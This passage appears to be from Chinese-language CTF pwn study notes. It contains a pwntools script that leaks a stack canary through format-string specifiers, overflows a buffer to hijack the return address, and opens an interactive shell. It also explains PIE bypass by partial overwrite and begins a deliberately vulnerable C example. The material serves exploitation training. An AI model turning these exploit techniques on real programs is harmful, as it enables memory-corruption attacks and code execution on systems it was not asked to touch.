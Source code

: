 ```python
from pwn import *


context.log_level = 'debug'
context(arch='i386', os='linux')

canary = 0
for i in range(20):
    p = process('printffmt')
    # gdb.attach(p)
    payload = '%{}$p'.format(i).encode()
    # pause()
    p.sendline(payload)
    tmp = p.recvline()
    if b'00' in tmp:
        print(tmp)
        inp = int(input(':'))
        if inp:
            canary = int(tmp.decode()[2:-1], 16)
            break
        p.close()

print("canary: ", hex(canary))
payload = b'a' * 10 + p32(canary) + b'a' * (8 + 4) + p32(0x8048586)
p.sendline(payload)

p.interactive()
```

**练习 ctfshow pwn 吃鸡杯 easy_canary**













## pie绕过

### 1. fork爆破（partial write）

​	partial  write(部分写入)就是一种利用了PIE技术缺陷的bypass技术。由于内存的页载入机制，PIE的随机化只能影响到单个内存页。通常来说，一个内存页大小为**0x1000**，这就意味着不管地址怎么变，某条指令的**后12位，3个十六进制数**的地址**（0x000-0xfff）**是始终不变的。因此通过覆盖**EIP(返回地址)**的后8或16位 (按字节写入，每字节8位)就可以快速爆破或者直接劫持EIP。

![image-20230708123125812](.\SNERT2023\image-20230708123125812.png)

![image-20230708123203516](.\SNERT2023\image-20230708123203516.png)

```c
// pie.c

#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <sys/wait.h>
#include<string.h>
char s[10];

void getflag() {
	system(s);
}

```
